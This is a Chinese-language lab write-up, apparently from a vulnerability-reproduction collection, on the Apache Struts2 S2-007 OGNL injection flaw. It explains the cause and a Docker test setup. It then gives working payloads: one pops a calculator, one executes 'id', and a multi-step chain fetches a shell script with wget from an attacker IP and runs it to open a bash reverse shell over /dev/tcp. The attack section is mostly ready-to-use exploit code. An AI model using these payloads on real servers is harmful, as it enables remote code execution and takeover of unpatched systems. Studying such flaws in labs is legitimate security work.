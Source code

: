 # Apache Struts2 S2-007 远程代码执行漏洞

## 漏洞描述

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：

```
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

漏洞详情:

- http://struts.apache.org/docs/s2-007.html

## 漏洞影响

影响版本: 2.0.0 - 2.2.3

## 环境搭建

Vulhub 执行以下命令启动 s2-007 测试环境：

```
docker-compose build
docker-compose up -d
```

访问 `http://your-vps-ip:8080/index.jsp` 即可进入上传表单页面。

## 漏洞复现

执行任意代码的 EXP：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

将 Exp 传入可以利用的输入框（age），得到命令执行结果：

![image-20220301170152780](images/202203011701833.png)

### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('wget 192.168.174.128/shell.sh').getInputStream())) + '
```

执行 shell.sh 文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash /usr/local/tomcat/shell.sh').getInputStream())) + '
```

成功接收反弹 shell：

![image-20220301170256417](images/202203011702511.png)
